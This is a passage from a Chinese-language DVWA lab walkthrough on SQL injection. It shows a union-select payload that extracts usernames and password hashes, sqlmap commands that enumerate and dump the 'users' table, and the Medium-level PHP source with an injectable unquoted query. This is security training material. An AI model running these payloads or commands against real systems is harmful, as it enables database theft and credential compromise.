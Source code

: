 7、脱库，爆破数据。
输入`1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`，查询成功得到账号密码等字段，不过密码是MD5加密的。

当然还有另一种方法是sqlmap注入，首先需要Burpsuite抓包，把数据包保存成request.txt，然后打开windows终端（注意安装sqlmap）或者kali终端（自带sqlmap），输入以下命令：
```
sqlmap -r request.txt --batch --dbms="MySQL" --current-db	# 可以得到数据库名
sqlmap -r request.txt --batch --dbms="MySQL" -D dvwa --tables	# 可以得到表名
sqlmap -r request.txt --batch --dbms="MySQL" -D dvwa -T users --columns 	# 可以得到列名
sqlmap -r request.txt --batch --dbms="MySQL" -D dvwa -T users -C "username,password" --dump		# 获得所有数据
```



## 0x02 Medium

#### 源码分析
```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?> 
```
mysqli_real_escape_string这个函数会对\x00,\n,\r,\,',",\x1a进行转义，并且前端页面设置了下拉菜单，所以必须抓包修改后再注入。
